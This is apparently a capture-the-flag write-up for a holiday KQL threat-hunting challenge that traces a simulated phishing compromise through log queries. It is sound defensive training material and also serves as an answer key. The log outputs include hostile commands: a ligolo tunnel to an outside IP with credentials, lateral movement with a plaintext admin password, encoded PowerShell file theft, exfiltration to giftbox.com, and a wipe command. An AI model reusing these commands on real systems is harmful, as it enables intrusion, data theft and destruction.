

# KQL Kraken Hunt

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective URL](https://detective.kusto.io/inbox)

## Objective

!!! question "Request"
    Use Azure Data Explorer to uncover misdeeds in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.<br/>
    I've got a network infection case on Film Noir Island that needs your expertise.<br/>
    Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.<br/>
    I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?<br/>
    You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.<br/>
    Before you start, you'll need to create a free cluster.<br/>
    Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.<br/>
    Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.<br/>
    If you run into any problems, just give me a holler, I've got your back.<br/>
    Good hunting, and let's bring this cyber criminal to justice.<br/>
    Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.<br/>
    

## Hints

??? tip "KQL Tutorial"
    Once you get into the Kusto trainer, click the blue Train me for the case button to get familiar with KQL.

??? tip "Outbound Connections"
     Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!

## Solution

To answer those questions we had to use Kusto Query Language

!!! info "KQL Query Reference"
    https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/kql-quick-reference


!!! info "Onboarding"
    Here's a little puzzle to warm you up with KQL and feel the pulse of the collected data. The Geese Islands network boasts a robust team putting in some serious hustle, and you can unmistakably witness their dedication mirrored in the tasks they bring to life. The delightful keyboard clicks in the morning, truly something to love, don't you agree? Now, presenting a snappy challenge: figure out the number of Craftsperson Elf's in the organization that are working from laptops.

!!! question "Onboarding: How many Craftperson Elf's are working from laptops?"
    ```
    Employees 
    |   where hostname has "LAPTOP" and role == "Craftsperson Elf"
    ```
    !!! success "Answer"
        25

## Case 1
!!! info "Case1: Welcome to Operation Giftwrap: Defending the Geese Island network"




KQL Query:
```sql
Email
| where link == 'http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx'
| summarize count() by recipient, link, sender, subject, timestamp
```

!!! success "Answers"
    alabaster_snowball@santaworkshopgeeseislands.org <br/>
    cwombley@gmail.com <br/>
    [EXTERNAL] Invoice foir reindeer food past due


## Case 2

!!! info "Case2: Someone got phished! Let's dig deeper on the victim..."


KQL Query:
```sql
Employees
| where name contains "alabaster"
```

!!! success "Answers"
    Head Elf <br/>
    Y1US-DESKTOP<br/>
    10.10.0.4


## Case 3

!!! info "Case3: That's not good. What happened next?"


KQL Query which we used to find answers:
What time did Alabaster click on the malicious link?
```sql
OutboundNetworkEvents
| where src_ip =="10.10.0.4"
```
What file is dropped to Alabaster's machine shortly after he downloads the malicious file?
```sql
FileCreationEvents
| where hostname == "Y1US-DESKTOP"
```

!!! success "Answers"
    2023-12-02T10:12:42Z
    giftwrap.exe


## Case 4

!!! info "Case4: A compromised host! Time for a deep dive."


KQL Query:
```sql
ProcessEvents
| where hostname == "Y1US-DESKTOP"
```

OUTPUT on destination IP:

```sql
"timestamp": 2023-12-02T11:11:29Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,
"process_name": ligolo,
"process_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,
"hostname": Y1US-DESKTOP,
"username": alsnowball
```
OUTPUT on share enumartion timestamp:

```sql
"timestamp": 2023-12-02T16:51:44Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": net share,
"process_name": net.exe,
"process_hash": 8b5b1556ba468035a37b40d8ea42a4bff252f4502b97c52fcacb3ba269527a57,
"hostname": Y1US-DESKTOP,
"username": alsnowball
```
OUTPUT on hostname of the system the attacker moved laterally to?
```sql
"timestamp": 2023-12-24T15:14:25Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123,
"process_name": cmd.exe,
"process_hash": bfc3e1967ffe2b1e6752165a94f7f84a216300711034b2c64b1e440a54e91793,
"hostname": Y1US-DESKTOP,
"username": alsnowball
```

!!! success "Answers Case 4"
     113.37.9.17<br/>
     2023-12-02T16:51:44Z<br/>
     NorthPolefileshare


## Case 5 

!!! info "Case5: A hidden message"


KQL Query:
```sql
ProcessEvents
| where process_commandline has "C:\\Windows\\System32\\powershell.exe" and hostname == "Y1US-DESKTOP"

```
Q1 When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

OUTPUT Q1

```sql
"timestamp": 2023-12-24T16:07:47Z,
"parent_process_name": cmd.exe,
"parent_process_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,
"process_commandline": C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -enc KCAndHh0LnRzaUxlY2lOeXRoZ3VhTlxwb3Rrc2VEXDpDIHR4dC50c2lMZWNpTnl0aGd1YU5cbGFjaXRpckNub2lzc2lNXCRjXGVyYWhzZWxpZmVsb1BodHJvTlxcIG1ldEkteXBvQyBjLSBleGUubGxlaHNyZXdvcCcgLXNwbGl0ICcnIHwgJXskX1swXX0pIC1qb2luICcn,
"process_name": powershell.exe,
"process_hash": 6a2ecb71f664280de86832553191d1e70335f1bcdbb756e041de8d1072819885,
"hostname": Y1US-DESKTOP,
"username": alsnowball

```
Q2 What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)


Decoded output and answer is: ==NaughtyNiceList.txt==
```py
'' join- )}]0[_${% | '' split- 'powershell.exe -c Copy-Item \\NorthPolefileshare\c$\MissionCritical\NaughtyNiceList.txt C:\Desktop\NaughtyNiceList.txt' ("

```
Q3 The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

For this challange we decoded ouput of next powershell encrypted data. To decrypt it i used chatGPT to decode ascii characters

```py
ascii_values = [100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101]
decoded_string = ''.join(chr(value) for value in ascii_values)
print(decoded_string)
```

downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file


!!! success "Answers Case 5"
    2023-12-24T16:07:47Z
    NaughtyNiceList.txt
    giftbox.com

## Case 6 

!!! info "The final step!"


KQL Query:
```sql
ProcessEvents
| where process_commandline has "C:\\Windows\\System32\\powershell.exe" and hostname == "Y1US-DESKTOP"

```


Q1 What is the name of the executable the attackers used in the final malicious command?

In this case we also used CyberChef to decode encrypted script

```sql
"process_commandline": C:\Windows\System32\powershell.exe -Nop -ExecutionPolicy bypass -enc QzpcV2luZG93c1xTeXN0ZW0zMlxkb3dud2l0aHNhbnRhLmV4ZSAtLXdpcGVhbGwgXFxcXE5vcnRoUG9sZWZpbGVzaGFyZVxcYyQ=,

```

==C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$==

Q2 What was the command line flag used alongside this executable?

!!! success "Answers Case 6"
    downwithsanta.exe<br/>
    --wipeall


To earn credit for your fantastic work, return to the Holiday Hack Challenge and enter the secret phrase which is the result of running this query:
```py
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```


!!! success "Answer"
    Beware the Cube that Wombles


## Response

!!! quote "Tangle Coalbox"
    I had my doubts, but you've proven your worth.<br/>
    That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.<br/>
    So long, Gumshoe, and be careful out there.
